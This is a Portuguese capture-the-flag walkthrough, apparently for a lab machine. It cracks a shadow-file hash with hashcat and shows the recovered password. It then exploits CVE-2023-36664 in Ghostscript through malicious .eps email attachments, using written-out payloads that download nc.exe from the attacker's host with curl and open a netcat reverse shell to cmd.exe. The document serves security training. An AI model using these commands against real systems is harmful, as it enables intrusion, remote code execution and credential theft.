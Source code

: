 ```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

Utilizando o hashcat, iremos quebrar a hash.

```
hashcat hash.txt rockyou.txt
```
O resultado foi:
```
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```
Com isso, será possível acessar o endereço ``10.10.11.241:443`` com o usuário do drwilliams.
<br>
![](https://i.imgur.com/u9SADJm.png)

Esse sistema é referente a envios de e-mails. Caso o sistema não tenha sido desenvolvido corretamente, uma das formas de explorar vulnerabilidades nesses sistemas é utilizando GhostScript em arquivos .eps.

Para explorar essa vulnerabilidade iremos utilizar um código injetável referente ao [CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----edd713d784bb--------------------------------).

Primeiramente, iremos inicar um servidor http para que o nosso alvo faça o download do netcat.exe, da seguinte forma:
```
python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)...
```

Após isso, iremos realizar o nosso primeiro payload de um aquivo .eps solicitando para que o servidor baixe do nosso servidor o nc.exe.

```
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.159:8000/nc.exe -o nc.exe" --filename file.eps
```

Após isso, enviaremos esse arquivo file.eps como anexo a um e-mail ao Drbrown. (Favor, relevar o bug dos icones, isso não deveria ter acontecido :DD)

![](https://i.imgur.com/SPUwOxM.png)

Após isso, vamos configurar o nc.exe que enviamos anteriormente com o endereço e porta da nossa máquina e enviaremos novamente esse arquivo em anexo.

```
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.159 4444 -e cmd.exe" --filename file.eps
```

Após isso, iremos realizar um novo arquivo inserindo o chamado ao nosso shell reverso.
```
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.159 4444 -e nc.exe" --filename file.eps
```
